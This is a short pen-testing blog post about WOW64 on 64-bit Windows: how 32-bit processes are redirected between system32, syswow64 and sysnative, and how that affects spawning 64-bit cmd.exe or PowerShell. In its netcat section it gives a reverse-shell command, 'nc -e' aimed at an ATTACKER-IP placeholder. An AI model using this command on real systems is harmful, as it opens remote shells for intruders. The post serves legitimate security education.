 ```yaml
---
layout: post
published: true
featured: true
comments: false
title: WOW64
headline: 'WOW64 '
description: What you need to know as a pen tester.
modified: '2019-03-01'
categories:
  - personal
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative
imagefeature: ''
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

> A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

~~~
32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative
~~~

> A 64-bit application can also access 32-bit versions directly using \syswow64.

~~~
64-bit app > 32-bit versions > \syswow64
~~~

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

~~~
nc -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT
~~~

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

~~~
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
~~~

## Further Reading

- [WOW64 Implementation](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Fwow64-implementation-details&sa=D&sntz=1&usg=AFQjCNGd8WizV4rztmURfGV_gTqyJ1J-dQ)
- [Running 32-Bit Applications](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Frunning-32-bit-applications&sa=D&sntz=1&usg=AFQjCNGZLoBioW3ekJr23FDLA8eWWBiqaA)
- [Accessing Alternate Registry Views](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Faccessing-an-alternate-registry-view&sa=D&sntz=1&usg=AFQjCNFqcilC4yY0Yz4u-yOfEQxsiKuwzw)


